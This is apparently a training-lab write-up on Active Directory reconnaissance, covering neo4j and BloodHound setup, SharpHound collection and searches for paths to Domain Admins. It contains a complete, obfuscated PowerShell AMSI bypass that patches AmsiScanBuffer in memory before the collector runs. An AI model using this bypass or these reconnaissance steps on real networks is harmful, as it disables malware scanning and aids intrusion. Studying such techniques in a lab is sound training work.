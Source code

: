 # 🐩 BloodHound, Identify Paths

I start by unziping the file C:\AD\Tools\neo4j-community-4.1.1- windows.zip

then i started the neo4j server like this:

```
.\neo4j.bat install-service
.\neo4j.bat start
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I get on this page with simple password neo4j:neo4j

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now i launch bloodhound via the following path (C:\AD\Tools\BloodHound-win32-x64\BloodHound-win32-x64) and enter the credentials that i set&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I then open my terminal and using invisishell and do the following

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
cd C:\AD\Tools\BloodHound-master\BloodHound-master\Collectors
```

Then i'm going to copy and paste this code snip in my terminal to bypass .NET AMSI before running SharpHound.ps1:

<pre><code><strong>$ZQCUW = @"
</strong>using System;
using System.Runtime.InteropServices;
public class ZQCUW {
 [DllImport("kernel32")]
 public static extern IntPtr GetProcAddress(IntPtr hModule, string
procName);
 [DllImport("kernel32")]
 public static extern IntPtr LoadLibrary(string name);
 [DllImport("kernel32")]
 public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr
dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ =
[ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#x26;#97;&#x26;#109;&#x26;#115;&#x26;#105;&#x26;#46;&#x26;#100;&#x26;#108;&#x26;#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ,
"$([systeM.neT.webUtility]::HtMldECoDE('&#x26;#65;&#x26;#109;&#x26;#115;&#x26;#105;&#x26;#83;&#x26;#99;&#x26;#97;&#x26;#110;&#x26;#66;&#x26;#117;&#x26;#102;&#x26;#102;&#x26;#101;&#x26;#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
</code></pre>

Then we can simply run sharphound

```
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can upload the JSON files to get a visual render with the GUI.&#x20;

I can look for myself:

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

In Node Info, scroll down to 'LOCAL ADMIN RIGHTS' and expand 'Derivative Local Admin Rights' to find if student613 has derivate local admin rights on any machine!

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption><p>Theres an issue with GUI so this screenshot is from course content</p></figcaption></figure>

To complete the task we go on the Web UI of bloodhound provided by the course, login with the creds and follow with this methodology:

n the Web UI, click on Cypher -> Click on the Folder Icon -> Pre-Built Searches -> Active Directory -> (Scroll down) -> Shortest paths to Domain Admins

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

